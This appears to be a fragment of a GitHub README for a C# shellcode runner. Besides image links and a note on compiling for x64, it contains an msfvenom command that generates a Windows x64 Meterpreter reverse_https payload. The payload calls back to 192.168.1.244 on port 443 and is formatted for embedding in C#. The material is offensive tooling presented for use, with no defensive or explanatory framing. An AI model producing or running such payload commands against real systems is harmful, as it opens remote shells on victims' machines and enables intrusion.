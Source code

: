 before compiling this we must set cpu to x64 since this is 64 bit shellcode 
![image](https://github.com/VietTheBarbarian/ShellcodeRunnerC-/assets/56415307/ee0c42e2-5e1e-4f61-982d-817d9613d635)

our payload 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.1.244 lport=443  -f csharp  
![image](https://github.com/VietTheBarbarian/ShellcodeRunnerC-/assets/56415307/188ebfad-1a70-4542-acb4-ed66f25ce7d7)

![image](https://github.com/VietTheBarbarian/ShellcodeRunnerC-/assets/56415307/21e53423-1b26-4b4c-91bd-4a281c1b4f3c)
